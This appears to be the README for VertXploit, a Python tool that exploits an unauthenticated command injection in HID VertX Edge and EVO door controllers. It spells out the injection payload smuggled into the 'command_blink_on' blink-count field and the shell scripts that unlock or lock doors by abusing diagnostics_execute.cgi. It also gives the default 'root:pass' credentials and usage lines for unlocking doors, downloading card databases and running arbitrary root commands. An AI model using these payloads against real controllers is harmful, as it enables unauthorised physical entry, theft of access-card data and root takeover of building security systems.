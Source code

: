 # VertXploit
Exploiting HID VertX physical access control systems

## Summary ##
VertXploit is a tool that can be used to exploit HID VertX Edge and EVO access control systems. 

A vulnerability exists within the discoveryd service, which fails to sanitize user data before executing system calls. This allows for arbitrary code execution on HID VertX Edge and EVO access control systems without needing to be authenticated. See the [Command Injection](https://github.com/coldfusion39/VertXploit/blob/master/README.md#command-injection) section for more information.

VertXploit can unlock or lock doors connected to the access control system, download the databases containing all of the provisioned/cached access control cards, and execute arbitrary commands as root on the VertX system, if vulnerable.

If the VertX controller's firmware has been recently updated, vertXploit will attempt to unlock or lock the doors through the web console by using the default, or user supplied, username and password.


## Requirements ##
Run `pip install -r requirements.txt` to install the required python modules.
 * [netifaces](https://bitbucket.org/al45tair/netifaces)
 * [python-nmap](https://bitbucket.org/xael/python-nmap)


## Usage ##
If the `-i IP` argument is not provided, vertXploit will attempt to discover all VertX access control system on the local network. If a controller is found, vertXploit will continue to execute the user supplied action that was provided with the `-a [discover, unlock, lock, download]` or `-raw` arguments.

### Discover ###
Run vertXploit with just the `-a discover` argument to discover all VertX access control systems on the local network. To check a specific system and return detailed information, run vertXploit with the `-a discover` argument and an IP address `-i IP`.

Example:

`./vertXploit.py`

`./vertXploit.py -i 10.1.10.5`


### Unlock/Lock ###
In order to unlock or lock doors connected to a VertX access control system, run vertXploit with the `-a unlock` or `-a lock` arguments. If the controller is not vulnerable to the command injection exploit, vertXploit will attempt to unlock or lock the doors through the web console. This method uses the default username and password of 'root:pass', or you can supply your own with the `--username USERNAME` and `--password PASSWORD` arguments.

Example:

`./vertXploit.py -a unlock -i 10.1.10.5`


### Download ###
To download the VertX card databases, run vertXploit with the `-a download` argument. The controller must be vulnerable to the command injection exploit.

Example:

`./vertXploit.py -a download -i 10.1.10.5`


### Raw ###
Arbitrary Linux commands can be executed on a VertX access control system by using the `-raw COMMAND` argument. Depending on the command being sent, the controller may not be able to execute the command because it is not installed (i.e. Python, PERL, ruby, etc). As a simple proof of concept, the Linux 'ping' command seems to work on all VertX models tested.

Example:

`./vertXploit.py -raw 'ping -c 5 10.1.10.39' -i 10.1.10.5`


## Command Injection ##
Typically multiple VertX controllers are installed and housed together. The diagnostic command `command_blink_on` can be sent to a specific controller, which causes the panel's physical "Comm" LED to blink on and off for visual identification. This command usually terminates with the number of times the LED should blink, in the following case, 30 times.

`command_blink_on;042;<MAC_ADDRESS>;30;`

By replacing the number of blinks with a Linux command wrapped in back ticks, the command will be executed on the VertX controller, as root.

``command_blink_on;042;<MAC_ADDRESS>;`ping -c 5 10.1.10.39`;``

To remotely unlock and lock doors connected to the VertX access control system, commands are echoed to `/tmp/a`. This is done because there is a length limit of 22 characters, for each command, that can be sent to the controller. <i>Note: echo is used instead of printf because some older VertX controllers are running BusyBox < 1.0.1 which does not include printf.</i>

Newlines from echoing the commands into the file are then removed by running `tr -d '\n' < /tmp/a > /tmp/b` and intentional newlines are inserted by running `tr '!' '\n' < /tmp/b > /tmp/a`.

The script `/tmp/a` is then executed and both files are deleted. Below shows what commands are being echoed into `/tmp/a` when the unlock and lock commands are sent to the VertX controller.

### Unlock ###
	# Set QUERY_STRING to the door unlock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=1"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Remove executable permissions to prevent the door from locking
	chmod -x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

### Lock ###
	# Enable executable permissions
	chmod +x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Set QUERY_STRING to the door lock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=0"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi



## Resources ##
* HeadlessZeke - https://github.com/headlesszeke/defcon24-demos
* TrendMicro Blog - http://blog.trendmicro.com/let-get-door-remote-root-vulnerability-hid-door-controllers/
* ZDI - http://www.zerodayinitiative.com/advisories/ZDI-16-223/
* Other Work - http://nosedookie.blogspot.com/2011/07/identifying-and-querying-hid-vertx.html

